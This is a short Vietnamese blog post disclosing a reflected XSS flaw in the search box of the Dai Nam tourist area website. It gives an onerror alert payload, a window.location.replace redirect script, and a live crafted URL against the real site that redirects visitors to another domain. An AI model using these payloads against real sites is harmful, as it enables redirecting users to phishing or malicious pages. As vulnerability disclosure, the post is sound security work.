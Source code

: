 ```yaml
---
title: Lỗ hổng XSS của trang web khu du lịch Đại Nam
date: 12/6/2021
layout: single
--- 
```


---


## Mô Tả 

Dạo này cũng hay coi drama :D nên thử vào xem trang du lịch Đại Nam xem nó như thế nào, tình cờ phát hiện XSS ở ô tìm kiếm chèn thử vài script công nhận nó nguy hiểm thật :D  

--- 

# Demo
## Javascript
![](https://www8.0zz0.com/2021/06/12/18/357532369.png)
---
```js
--><!-- ---> <img src=xxx:x onerror=javascript:alert(1)> -->
```
Test nhẹ cái script thứ nhất hiển thị alert :D nếu hacker nhúng vào script chuyển hướng tới trang độc hại hoặc lừa đảo thì người dùng có thể bị mắc lừa của hacker, vì người dùng cứ nghĩ rằng đang ở trang chính chủ nhưng không biết đã bị hacker gắn script vào :D

```js
<script>
    window.location.replace("http://"); 
    </script>
```
Script này hacker sử dụng để chuyển hướng người dùng tới một trang web khác
+ [https://khudulichdainam.vn/tim-kiem.html?k=%3Cscript%3E%20window.location.replace(%22http://blogth3pr0.github.io%22);%3C/script%3E](https://khudulichdainam.vn/tim-kiem.html?k=%3Cscript%3E%20window.location.replace(%22http://blogth3pr0.github.io%22);%3C/script%3E) 
---





## Thanks :D
